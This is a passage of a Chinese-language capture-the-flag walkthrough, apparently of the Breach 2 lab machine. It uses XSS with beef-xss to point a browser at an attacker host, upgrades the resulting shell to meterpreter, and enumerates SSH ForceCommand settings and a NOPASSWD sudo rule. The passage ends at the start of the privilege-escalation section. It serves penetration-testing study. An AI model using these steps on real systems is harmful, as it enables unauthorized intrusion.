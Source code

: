 xss，代码执行

![image-20250215213850545](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215213850545.png)

然后使用beef-xss，跳转到`http://192.168.110.7:8080/test`

![image-20250215214642395](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215214642395.png)

![image-20250215215449858](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215215449858.png)

然后使用`post/multi/manage/shell_to_meterpreter`，升级一下shell

![image-20250215215417219](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215215417219.png)

```sh
$ cat firefox.sh
#!/bin/bash

xvfb-run --auto-servernum --server-num=1 /opt/firefox/firefox http://192.168.110.151/blog/members.html
```

`/etc/ssh/sshd_config`

```
UsePAM yes
AllowUsers peter
ForceCommand /usr/bin/startme
AddressFamily inet
```

`ForceCommand` 是一个用于强制执行特定命令的配置选项，通常是在 SSH 服务器的配置文件中进行设置。它的主要用途是在用户连接时，无论他们尝试执行什么操作，服务器都会强制执行指定的命令。

```
meterpreter > cat /usr/bin/startme
#!/bin/bash

sudo /etc/init.d/apache2 start &> /dev/null
```

```sh
$ whoami
peter
$ sudo -l
Matching Defaults entries for peter on breach2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on breach2:
    (root) NOPASSWD: /etc/init.d/apache2
```

## 提权

查看网络连接
